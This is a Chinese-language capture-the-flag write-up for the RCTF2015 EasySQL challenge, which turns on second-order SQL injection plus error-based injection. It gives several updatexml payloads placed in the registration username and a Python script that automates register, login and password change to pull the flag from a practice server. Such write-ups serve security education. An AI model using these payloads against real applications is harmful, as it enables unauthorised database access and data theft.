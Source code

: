 # 原创
：  [RCTF2015]EasySQL

# [RCTF2015]EasySQL

#### [RCTF2015]EasySQL

## 考点

> 
二次注入、报错注入


## 思路

> 
注册账号之后，发现登陆后有个修改密码，在修改密码的时候会查询数据库，所以应该存在二次注入<br/> 对username和email进行fuzz


> 
注册时把用户名写成 `'admin"\`，发现在改密码时会报如下错误：


<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/202106252000022.png#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210625200008927.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

> 
可以猜出来 sql 语句应该是类似于这样子的，所以我们可以利用二次注入和报错注入来获取flag


```
 select * from user where username="'admin"\" and password='d41d8cd98f00b204e9800998ecf8427e'

```

## Payload

> 
创建用户：`username = h3rmesk1t"||(updatexml(1,concat(0x3a,(select(group_concat(table_name))from(information_schema.tables)where(table_schema=database()))),1))#`，然后在修改密码触发二次注入


> 
`username = h3rmesk1t"||(updatexml(1,concat(0x3a,(select(group_concat(column_name))from(information_schema.columns)where(table_name='users'))),1))#`


> 
发现输出有长度限制，利用正则来获取表名：`username = h3rmesk1t"||(updatexml(1,concat(0x3a,(select(group_concat(column_name))from(information_schema.columns)where(table_name='users')&amp;&amp;(column_name)regexp('^r'))),1))#`


> 
`username = h3rmesk1t"||(updatexml(1,concat(0x3a,(select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f'))),1))#`


> 
`username = h3rmesk1t"||updatexml(1,concat(0x3a,reverse((select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f')))),1)#`


> 
脚本


```
import requests

url_reg = 'http://7e4dcf86-135f-4bad-98e0-1b7ad8318aad.node2.buuoj.cn.wetolink.com:82/register.php'
url_log = 'http://7e4dcf86-135f-4bad-98e0-1b7ad8318aad.node2.buuoj.cn.wetolink.com:82/login.php'
url_change = 'http://7e4dcf86-135f-4bad-98e0-1b7ad8318aad.node2.buuoj.cn.wetolink.com:82/changepwd.php'

pre = 'H3rmesk1t"'
suf = "'))),1))#"

s = 'abcdefghijklmnopqrstuvwxyz1234567890'
s = list(s)

r = requests.session()

def register(name):
	data = {
		'username' : name,
		'password' : '123',
		'email' : '123',
	}
	r.post(url=url_reg, data=data)

def login(name):
	data = {
		'username' : name,
		'password' : '123',
	}
	r.post(url=url_log, data=data)
	
def changepwd():
	data = {
		'oldpass' : '',
		'newpass' : '',
	}
	kk = r.post(url=url_change, data=data)
	if 'target' not in kk.text:
		print(kk.text)

for i in s:
	paylaod = pre + "||(updatexml(1,concat((select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('" + i + suf
	register(paylaod)
	login(paylaod)
	changepwd()

```
